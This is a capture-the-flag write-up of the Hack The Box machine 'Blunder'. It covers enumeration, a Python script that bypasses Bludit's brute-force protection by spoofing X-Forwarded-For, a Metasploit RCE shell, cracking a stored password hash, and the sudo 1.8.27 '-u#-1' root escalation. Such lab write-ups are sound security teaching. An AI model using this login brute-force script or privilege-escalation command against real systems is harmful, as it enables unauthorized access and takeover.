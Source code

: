 ```yaml
---
title: "Blunder — Hack The Box [Write-up]"
author: 0x3ashry
description: "Writeup for Blunder Hackthebox Machine"
date: 2022-05-01 07:00:00 +0200
categories: [HackTheBox]
tags: [HTB, Linux]
---
```


![](/img/HTB/Blunder/Blunder.png)

Blunder is a Linux machine rated as easy from Hack The Box, it consists on finding credentials to log in to Bludit and then use a RCE exploit to gain an initial shell, then some database files can be read in order to pivot users, finally a root shell can be spawned using sudo security bypass.

#### Used Tools:
- nmap
- Gobuster
- Searchsploit
- Metasploit
- Cewl


## 1. SCANNING & ENUMERATION

I will start with nmap and the -A parameter to enable OS detection, version detection, script scanning, and traceroute and append the output to tee command which save the in a file named “nmap” and also show the output on the screen.

![](/img/HTB/Blunder/img (1).png)

Nmap is done with port 21 closed and port 80 open.

The site is a blog website containing 3 posts and nothing more.

Let's try directory bruteforcing.
I'll run gobsuter with -u for the url, -2 for the directory list, and -o for the output file.

```bash
gobuster dir -u http://10.10.10.191/ -w /usr/share/wordlists/dirb/common.txt -o directory.txt  2>/dev/null
```

![](/img/HTB/Blunder/img (2).png)

The directory bruteforce finished and I found "/admin", "/cgi-bin" and "/robots.txt".
/admin has an admin interface with login and password, I tried SQLInjection but reached nothing, and the cgi-bin was disabled so couldn't proceed with attacks like shellshock and the robots.txt have nothing.

After a lot of searching I tried to rerun the directory bruteforce but with different directory list:

```bash
gobuster dir -u http://10.10.10.191/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o directory2.txt  2>/dev/null
```

![](/img/HTB/Blunder/img (3).png)

I found extra: "/install.php", "/todo.txt", "/usb".


## 2. EXPLOITATION:

visiting /install.php discloses a potential **CMS** “Bludit”

![](/img/HTB/Blunder/img (4).png)

Checking /todo.txt the following notes are discovered:

![](/img/HTB/Blunder/img (5).png)

Noticed that the CMS version isn't updated yet, so we need to know its current version and there is a user called **fergus**.

Revisiting /admin is the login page, and when viewing the page source, it potentially discloses the **version of bludit as 3.9.2**

![](/img/HTB/Blunder/img (6).png)

I searched on searchsploit for bludit 3.9.2

![](/img/HTB/Blunder/img (7).png)

There is a metasploit module so let's take a look for it:

![](/img/HTB/Blunder/img (8).png)

It require a username and a password to work...


We remember that we have a username called **fergus** from so we need to get a password, let's try bruteforcing the password by creating a password list from the common words in the website using **cewl** with the -d for depth of the search, -m for min length of the password and -w for the output

```bash
cewl -d 3 -m 5 -w HTB/Blunder/cewl_wordlist.txt http://10.10.10.191/
```
After creating our password list we need to try it...
I found a python code online for Bludit Brute Force Mitigation Bypass: https://rastating.github.io/bludit-brute-force-mitigation-bypass/

After a lot of modification to make it run properly the code was as following:

```python
#!/usr/bin/env python3
import re
import requests

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = []

file = r"/home/kali/HTB/Blunder/cewl_wordlist.txt"  # Put here the location of the password list

file=open(file,'r')
for line in file:
  for word in line.split():
    wordlist.append(word)


for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break

```

After executing it tries different passwords till it find a valid one "RolandDeschain":

![](/img/HTB/Blunder/img (9).png)

let's pass it to our metasploit exploit and run it...

![](/img/HTB/Blunder/img (10).png)

We successfully gained a meterpreter shell
Gaining a more interactive shell:

```bash
shell
python -c 'import pty;pty.spawn("/bin/bash")'
```

We are now "www-data" user, Traveling to /home we found 2 users: hugo, shaun
Visiting hugo we found user.txt, trying to read it but permission denied.

![](/img/HTB/Blunder/img (11).png)

After a lot of searcing in the system I found 2 directories called "bludit-3.10.0a" and "bludit-3.9.2" in the /var/www directory

Visiting its bludit-3.10.0a's content, I found a **user.php** file in the /var/www/bludit-3.10.0a/bl-content/databases

![](/img/HTB/Blunder/img (12).png)

After reading it I found Hugo's password hash, So let's try to decode it online on https://hashtoolkit.com/decrypt-hash/...

![](/img/HTB/Blunder/img (13).png)

It found a successfull match with a password: "Password120"

Let's change user and get the user flag...

![](/img/HTB/Blunder/img (14).png)


## 3. PRIVILEGE ESCALATION:

Let's list user's privileges or check a specific command:

![](/img/HTB/Blunder/img (15).png)

This have a public exploit exploiting "sudo 1.8.27 - Security Bypass"
Link: https://www.exploit-db.com/exploits/47502

So we could escalate our privileges using:

```bash
sudo -u#-1 /bin/bash
```

BOOOOOOOOOOOOOOOOOOOOM!!!!! Now we are root :D

![](/img/HTB/Blunder/img (16).png)


Thank you so much for reading and I hope you learned a lot as I did ❤

#### ***0x3ashry***